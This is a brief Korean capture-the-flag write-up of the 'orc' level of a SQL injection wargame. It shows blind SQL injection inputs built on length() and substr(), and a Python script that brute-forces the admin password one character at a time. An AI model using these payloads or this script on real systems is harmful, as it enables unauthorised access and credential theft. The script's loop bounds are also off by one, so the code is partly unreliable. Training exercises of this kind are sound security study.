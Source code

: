 # orc

* length 함수로 pw 길이 구하기
* substr 함수 이용   
<br/>

![](1.PNG)   
```
?pw=aa' or id='admin' and length(pw)='8
```   
pw 길이는 8이라는 것을 알 수 있다.   
<br/>   

![](2.PNG)
```
?pw=aa' or id='admin' and substr(pw,1,1)='48
```   
substr 함수를 이용하면 pw를 하나씩 알아낼 수 있다.    
<br/>   

다음 코드로 pw를 구할 수 있다.   
```
import requests

headers = {'Cookie': 'PHPSESSID=사용자세션'}
url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?'

pw= ''
for i in range(1, 8):
	for j in range(48,122):
		value = "aa'or id='admin' and ord(substr(pw,{},1))={} #".format(i,j)
		params = {'pw':value}
		response = requests.get(url,params=params, headers=headers)
		print chr(j)
		if "<h2>Hello admin</h2>" in response.text:
			pw += chr(j)
			print '[+] find : ' + chr(j)
			break

print '[*] Password : ' + pw
```   
![](3.PNG)

